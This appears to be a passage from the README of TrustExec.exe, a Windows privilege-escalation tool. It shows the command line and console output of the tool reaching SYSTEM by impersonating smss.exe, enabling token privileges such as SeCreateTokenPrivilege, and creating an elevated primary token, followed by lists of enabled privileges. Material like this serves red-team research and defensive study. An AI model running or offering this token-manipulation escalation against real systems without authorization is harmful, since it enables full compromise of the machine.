 ```

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State
============================= ========================================= =======
SeAssignPrimaryTokenPrivilege Replace a process level token             Enabled
SeTcbPrivilege                Act as part of the operating system       Enabled
SeDebugPrivilege              Debug programs                            Enabled
SeImpersonatePrivilege        Impersonate a client after authentication Enabled

[>] Exit.
```

If you want to enable all available privileges, set `-f` flag as follows:

```
C:\dev>TrustExec.exe -m exec -c "whoami /priv" -f

[>] Trying to get SYSTEM.
[+] SeDebugPrivilege is enabled successfully.
[>] Trying to impersonate as smss.exe.
[+] SeCreateTokenPrivilege is enabled successfully.
[+] SeAssignPrimaryTokenPrivilege is enabled successfully.
[>] Trying to impersonate thread token.
    |-> Current Thread ID : 2526
[+] Impersonation is successful.
[>] Trying to create an elevated primary token.
[+] An elevated primary token is created successfully.
[>] Trying to create a token assigned process.


PRIVILEGES INFORMATION
----------------------

Privilege Name                            Description                                                        State
========================================= ================================================================== =======
SeCreateTokenPrivilege                    Create a token object                                              Enabled
SeAssignPrimaryTokenPrivilege             Replace a process level token                                      Enabled
SeLockMemoryPrivilege                     Lock pages in memory                                               Enabled
SeIncreaseQuotaPrivilege                  Adjust memory quotas for a process                                 Enabled
SeMachineAccountPrivilege                 Add workstations to domain                                         Enabled
SeTcbPrivilege                            Act as part of the operating system                                Enabled
SeSecurityPrivilege                       Manage auditing and security log                                   Enabled
SeTakeOwnershipPrivilege                  Take ownership of files or other objects                           Enabled
SeLoadDriverPrivilege                     Load and unload device drivers                                     Enabled
SeSystemProfilePrivilege                  Profile system performance                                         Enabled
SeSystemtimePrivilege                     Change the system time                                             Enabled
SeProfileSingleProcessPrivilege           Profile single process                                             Enabled
```